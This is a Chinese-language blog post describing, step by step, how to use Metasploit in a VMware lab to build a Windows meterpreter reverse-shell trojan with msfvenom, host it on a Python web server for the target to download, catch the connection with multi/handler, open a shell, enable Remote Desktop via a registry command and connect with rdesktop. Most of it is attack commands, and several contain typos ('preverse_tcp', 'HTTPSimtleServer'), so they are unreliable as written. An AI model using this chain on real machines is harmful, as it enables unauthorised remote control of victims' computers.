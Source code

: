```yaml
---
layout:     post
title:      Metasploit，生成木马内网渗透
subtitle:   Metasploit，简单vmware虚拟机内网渗透。
date:       2019-3-17
author:     陈建武
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```

1.是首先打开kali-linux，（这里我使用的版本是2019.1），打开终端运行msfconsole。

msfconsole

2.等待MSF启动成功，利用MSF下的一插件msfvenom，来生成木马。

msfvenom -p windows/meterpreter/preverse_tcp lhost='这里是输入你本机的ip' lport=‘这里输入你的端口，注意！不要和现在开启的端口冲突’ -f exe 

>/muma.exe

3.接下来开启一个简单的web服务。

python HTTPSimtleServer 8080.

4.去你的靶机浏览器访问kali的ip+端口并下载木马程序，

5.加载exp。

use exploit/multi/handler

6.设置payload。

set payload windows/meterpreter/preverse_tcp

set lhost '你的ip'

set lport '你的端口'

show options ‘这里查看参数是否都输入对了’。

run‘运行’

7.等待目标上线。

shell 控制目标终端。

8.输入以下命令打开对方3389远程桌面端口。

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

9.利用kali下的rdesktop，链接对方桌面。

rdesktop ‘目标ip’。

10.完成。

